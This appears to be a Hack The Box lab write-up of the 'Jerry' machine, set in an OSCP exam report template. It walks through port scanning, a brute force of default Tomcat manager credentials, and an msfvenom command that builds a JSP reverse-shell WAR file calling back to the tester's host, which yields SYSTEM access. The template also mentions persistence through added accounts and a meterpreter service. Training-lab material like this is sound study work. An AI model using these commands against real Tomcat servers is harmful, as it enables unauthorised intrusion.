

# Pentesting Report - Jerry

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.95

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

We do an initial nmap scan and we find only a Tomcat server is open on the machine:

```
$ sudo nmap -sC -sV -oA nmap/jerry-initial 10.10.10.95   
[sudo] password for user: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 11:35 CET
Nmap scan report for 10.10.10.95
Host is up (0.032s latency).
Not shown: 999 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.69 seconds

```

A full TCP port range scan doesn't give us more services on the box:

```
──(user㉿kali)-[~/hackthebox/hackthebox/jerry]
└─$ sudo nmap -sC -sV -p- -oA nmap/jerry-fulltcp 10.10.10.95 
[sudo] password for user: 
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-10 12:37 CET
Nmap scan report for 10.10.10.95
Host is up (0.027s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 112.61 seconds
```

With gobuster we find the following directories on the Tomcat server:

```
$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster/jerry-raft-medium-dirs.log 
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2021/03/10 13:02:31 Starting gobuster
===============================================================
/docs (Status: 302)
/manager (Status: 302)
/examples (Status: 302)
[ERROR] 2021/03/10 13:03:37 [!] parse http://10.10.10.95:8080/error_log: net/url: invalid control character in URL
===============================================================
2021/03/10 13:03:53 Finished
===============================================================
```

```
$ gobuster dir -u http://10.10.10.95:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt -o gobuster/jerry-raft-medium-files-x.log -x txt,html,htm,jsp,js,jar,cgi,war
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.95:8080
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-files.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     war,txt,html,htm,jsp,js,jar,cgi
[+] Timeout:        10s
===============================================================
2021/03/10 13:01:24 Starting gobuster
===============================================================
/favicon.ico (Status: 200)
/. (Status: 200)
/index.jsp (Status: 200)
===============================================================
2021/03/10 13:08:11 Finished
===============================================================
```

When we browse to http://10.10.10.95:8080 we are greeted with a login:


With metasploit we check the Tomcat for the most common credentials:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/jerry]                                                                                                                                       
└─$ sudo msfdb run                                                                                                                                                              130 ⨯
[sudo] password for user:                                                                                                                                                             
[+] Starting database                                                                                                                                                                 
                                                                                                                                                                                      
               .;lxO0KXXXK0Oxl:.                                                                                                                                                      
           ,o0WMMMMMMMMMMMMMMMMMMKd,                                                                                                                                                  
        'xNMMMMMMMMMMMMMMMMMMMMMMMMMWx,                                                                                                                                               
      :KMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMK:                                                                                                                                             
    .KMMMMMMMMMMMMMMMWNNNWMMMMMMMMMMMMMMMX,                                                                                                                                           
   lWMMMMMMMMMMMXd:..     ..;dKMMMMMMMMMMMMo                                                                                                                                            xMMMMMMMMMMWd.               .oNMMMMMMMMMMk 
 oMMMMMMMMMMx.                    dMMMMMMMMMMx                                                                                                                                        
.WMMMMMMMMM:                       :MMMMMMMMMM,                                                                                                                                       
xMMMMMMMMMo                         lMMMMMMMMMO                                                                                                                                       
NMMMMMMMMW                    ,cccccoMMMMMMMMMWlccccc;                                                                                                                                
MMMMMMMMMX                     ;KMMMMMMMMMMMMMMMMMMX:                                                                                                                                 
NMMMMMMMMW.                      ;KMMMMMMMMMMMMMMX:                                                                                                                                   
xMMMMMMMMMd                        ,0MMMMMMMMMMK;                                                                                                                                     .WMMMMMMMMMc                         'OMMMMMM0,
 lMMMMMMMMMMk.                         .kMMO'                                                                                                                                         
  dMMMMMMMMMMWd'                         ..                                                                                                                                           
   cWMMMMMMMMMMMNxc'.                ##########                                                                                                                                       
    .0MMMMMMMMMMMMMMMMWc            #+#    #+#                                                                                                                                        
      ;0MMMMMMMMMMMMMMMo.          +:+
        .dNMMMMMMMMMMMMo          +#++:++#+                                                
           'oOWMMMMMMMMo                +:+
               .,cdkO0K;        :+:    :+:                                
                                :::::::+:
                      Metasploit                                                           
                                                                                           
       =[ metasploit v6.0.31-dev                          ] 
+ -- --=[ 2101 exploits - 1131 auxiliary - 357 post       ]
+ -- --=[ 592 payloads - 45 encoders - 10 nops            ]  
+ -- --=[ 7 evasion                                       ]  
                                                                                           
Metasploit tip: Metasploit can be configured at startup, see  
msfconsole --help to learn more                                                            
                                                                                           
msf6 > search tomcat                                                                       
                                                                                           
Matching Modules                                                                           
================                                                                           
                                                                                           
   #   Name                                                         Disclosure Date  Rank       Check  Description
   -   ----                                                         ---------------  ----       -----  -----------
   0   auxiliary/admin/http/ibm_drm_download                        2020-04-21       normal     Yes    IBM Data Risk Manager Arbitrary File Download
   1   auxiliary/admin/http/tomcat_administration                                    normal     No     Tomcat Administration Tool Default Access
   2   auxiliary/admin/http/tomcat_ghostcat                         2020-02-20       normal     No     Ghostcat
   3   auxiliary/admin/http/tomcat_utf8_traversal                   2009-01-09       normal     No     Tomcat UTF-8 Directory Traversal Vulnerability
   4   auxiliary/admin/http/trendmicro_dlp_traversal                2009-01-09       normal     No     TrendMicro Data Loss Prevention 5.5 Directory Traversal
   5   auxiliary/dos/http/apache_commons_fileupload_dos             2014-02-06       normal     No     Apache Commons FileUpload and Apache Tomcat DoS
   6   auxiliary/dos/http/apache_tomcat_transfer_encoding           2010-07-09       normal     No     Apache Tomcat Transfer-Encoding Information Disclosure and DoS
   7   auxiliary/dos/http/hashcollision_dos                         2011-12-28       normal     No     Hashtable Collisions
   8   auxiliary/scanner/http/tomcat_enum                                            normal     No     Apache Tomcat User Enumeration
   9   auxiliary/scanner/http/tomcat_mgr_login                                       normal     No     Tomcat Application Manager Login Utility
   10  exploit/linux/http/cisco_prime_inf_rce                       2018-10-04       excellent  Yes    Cisco Prime Infrastructure Unauthenticated Remote Code Execution
   11  exploit/linux/http/cpi_tararchive_upload                     2019-05-15       excellent  Yes    Cisco Prime Infrastructure Health Monitor TarArchive Directory Traversal Vulner
ability                                                                                    
   12  exploit/multi/http/cisco_dcnm_upload_2019                    2019-06-26       excellent  Yes    Cisco Data Center Network Manager Unauthenticated Remote Code Execution
   13  exploit/multi/http/struts2_namespace_ognl                    2018-08-22       excellent  Yes    Apache Struts 2 Namespace Redirect OGNL Injection
   14  exploit/multi/http/struts_code_exec_classloader              2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   15  exploit/multi/http/struts_dev_mode                           2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution
   16  exploit/multi/http/tomcat_jsp_upload_bypass                  2017-10-03       excellent  Yes    Tomcat RCE via JSP Upload Bypass
   17  exploit/multi/http/tomcat_mgr_deploy                         2009-11-09       excellent  Yes    Apache Tomcat Manager Application Deployer Authenticated Code Execution
   18  exploit/multi/http/tomcat_mgr_upload                         2009-11-09       excellent  Yes    Apache Tomcat Manager Authenticated Upload Code Execution
   19  exploit/multi/http/zenworks_configuration_management_upload  2015-04-07       excellent  Yes    Novell ZENworks Configuration Management Arbitrary File Upload
   20  exploit/windows/http/cayin_xpost_sql_rce                     2020-06-04       excellent  Yes    Cayin xPost wayfinder_seqid SQLi to RCE
   21  exploit/windows/http/tomcat_cgi_cmdlineargs                  2019-04-10       excellent  Yes    Apache Tomcat CGIServlet enableCmdLineArguments Vulnerability
   22  post/multi/gather/tomcat_gather                                               normal     No     Gather Tomcat Credentials
   23  post/windows/gather/enum_tomcat                                               normal     No     Windows Gather Apache Tomcat Enumeration
                                                                                           
                                                                                           
Interact with a module by name or index. For example info 23, use 23 or use post/windows/gather/enum_tomcat
                                                                                           
msf6 > use 9
msf6 auxiliary(scanner/http/tomcat_mgr_login) > options      
                                                                                           
Module options (auxiliary/scanner/http/tomcat_mgr_login):                                  
                                             
   Name              Current Setting                                                                 Required  Description                                                            
   ----              ---------------                                                                 --------  -----------
   BLANK_PASSWORDS   false                                                                           no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                                               yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                                                           no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                                                           no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                                                           no        Add all users in the current database to the list
   PASSWORD                                                                                          no        The HTTP password to specify for authentication
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt      no        File containing passwords, one per line
   Proxies                                                                                           no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                                                            yes       The target host(s), range CIDR identifier, or hosts file with syntax 'f
ile:<path>'
   RPORT             8080                                                                            yes       The target port (TCP)
   SSL               false                                                                           no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS   false                                                                           yes       Stop guessing when a credential works for a host
   TARGETURI         /manager/html                                                                   yes       URI for Manager login. Default is /manager/html
   THREADS           1                                                                               yes       The number of concurrent threads (max one per host)
   USERNAME                                                                                          no        The HTTP username to specify for authentication
   USERPASS_FILE     /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_userpass.txt  no        File containing users and passwords separated by space, one pair per li
ne
   USER_AS_PASS      false                                                                           no        Try the username as the password for all users
   USER_FILE         /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt     no        File containing users, one per line
   VERBOSE           true                                                                            yes       Whether to print output for all attempts
   VHOST                                                                                             no        HTTP server virtual host

msf6 auxiliary(scanner/http/tomcat_mgr_login) > set rhosts 10.10.10.95
rhosts => 10.10.10.95
msf6 auxiliary(scanner/http/tomcat_mgr_login) > run

[-] 10.10.10.95:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: manager:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: role1:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/tomcat_mgr_login) > 
```

With the tomcat/s3cret credentials we log in at the Tomcat manager web interface.
Note the ability to upload WAR files to upload servlet pages:


With msfvenom we create a war reverse payload file that we can upload on the manager web interface:

```
$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f war > jerryletmein.war
Payload size: 1089 bytes
Final size of war file: 1089 bytes
```

The war file contains a jsp servlet with reverse shell payload:

```
┌──(user㉿kali)-[~/hackthebox/hackthebox/jerry]
└─$ jar -tvf jerryletmein.war
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
     0 Wed Mar 10 13:15:24 CET 2021 WEB-INF/
   262 Wed Mar 10 13:15:24 CET 2021 WEB-INF/web.xml
  1496 Wed Mar 10 13:15:24 CET 2021 uxljpxfaudc.jsp
```

We open a Netcat listener on port 4444:

```
──(user㉿kali)-[~/hackthebox/hackthebox/jerry]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
```

Then we surf to the following URL:

```
http://10.10.10.95:8080/jerryletmein/
```

The Netcat listener is answered by a reverse shell, and we also see we have system authority access:

```
──(user㉿kali)-[~/hackthebox/hackthebox/jerry]
└─$ nc -lnvp 4444              
listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.95] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

C:\apache-tomcat-7.0.88>
```
With system privileges we can access the flags on the machine:



**Vulnerability Fix:**

Change credentials login Tomcat interface, remove public access Tomcat administrative interface

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
